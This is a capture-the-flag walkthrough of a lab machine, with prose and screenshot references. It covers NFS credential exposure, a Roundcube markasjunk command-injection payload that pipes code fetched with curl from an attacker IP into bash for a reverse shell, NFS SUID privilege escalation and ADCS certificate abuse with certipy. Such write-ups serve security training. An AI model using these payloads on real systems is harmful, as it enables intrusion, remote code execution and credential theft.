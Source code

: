 # Hybrid (chain) (easy)

## port scan

mail01.hybrid.vl

![](walkthrough_20240410131406696.png)

dc01.hybrid.vl

![](walkthrough_20240410131510871.png)


## service enumeration

mail01 have web service called Roundcube Webmail 

![](walkthrough_20240410131624197.png)

mail01 also have nfs service

![](walkthrough_20240410131941684.png)


## nfs discover

`/opt/share` found on nfs share

![](walkthrough_20240410132024252.png)

we can use mount command without permission to mount remote folder

```bash
 sudo mount -t nfs 10.10.217.118:/opt/share /home/sh4n4c1/lab/vulnlab/hybrid/mnt/
```

![](walkthrough_20240410132254311.png)

![](walkthrough_20240410133006274.png)

there have some cred in `dovecot-users` file

![](walkthrough_20240410133243712.png)

we can use admin cred login roundcubes

![](walkthrough_20240410133357170.png)

admin say that he enable junk filter plugin on roundcubes 

![](walkthrough_20240410133834655.png)

## markasjunk exploit 

we can see detail on `about`. The plugin called `markasjunk`

![](walkthrough_20240410133914679.png)

seems we have RCE

![](walkthrough_20240410133949273.png)

https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/

![](walkthrough_20240410134347063.png)

so my payload is 

```
admin&curl${IFS}10.8.1.167|bash&@roundcube.com
```

add reverse shell into index.html. and then open webserver, change admin email address on setting. 

![](walkthrough_20240410134833530.png)

last step, click `Junk`

![](walkthrough_20240410134745192.png)

we have shell!

![](walkthrough_20240410134803852.png)

## login as peter.turner

since we mount mail01 /opt/share, we can upload suid binary, but 
 /etc/exports config disable it
 
 https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
 
![](walkthrough_20240410142344960.png) 

but we upload suid same as peter.tunrner user id

![](walkthrough_20240410142553350.png)

change /etc/login.defs MAX uid

![](walkthrough_20240410142952238.png)

![](walkthrough_20240410144608726.png)

![](walkthrough_20240410144658561.png)

download bash from mail01, upload it to mnt folder and `chmod +s /mnt/vulnlab/bash`


![](walkthrough_20240410151952009.png)

we are now peter.turner user

![](walkthrough_20240410152043055.png)


there have a passwords.kdbx file 

![](walkthrough_20240410152228466.png)

the password is found in `dovecot-users` (nfs dump)

![](walkthrough_20240410152516135.png)


![](walkthrough_20240410152542725.png)

work!

![](walkthrough_20240410152734976.png)

## adcs attack

just like vulnlab's Retro box, we found a Vulnerabilities template. but only `Domain Computers` can enroll.

![](walkthrough_20240410154431640.png)

![](walkthrough_20240410154449503.png)

now we need a computer cred, looks like we can run any command as root on mail01

![](walkthrough_20240410155021578.png)

download /etc/krb5.keytab and extract mail01$ hash

![](walkthrough_20240410161117503.png)


```bash
certipy-ad req -u 'mail01$'@hybrid.vl -hashes ':$hash' -c 'hybrid-DC01-CA' -target "$t1" -template 'HybridComputers' -upn 'adm
inistrator' -key-size 4096


certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip "$t1"
```

![](walkthrough_20240410155834243.png)

![](walkthrough_20240410160626560.png)